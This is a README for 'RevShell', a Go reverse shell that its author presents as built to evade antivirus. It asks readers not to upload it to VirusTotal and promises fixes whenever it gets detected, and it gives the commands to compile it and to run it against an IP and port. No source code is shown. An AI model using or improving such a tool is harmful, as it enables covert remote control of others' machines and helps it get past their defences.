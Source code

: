 # RevShell
### DO NOT UPLOAD TO VIRUSTOTAL

This is a reverse shell written in go to evade antivirus! If antivirus start detecting it, please open an issue and let me know! I will fix it asap!


USAGE:
```powershell
.\hello.exe ip port
```

```bash
./hello ip port
```

Compiling:
```bash
❯ bash compile.sh
```
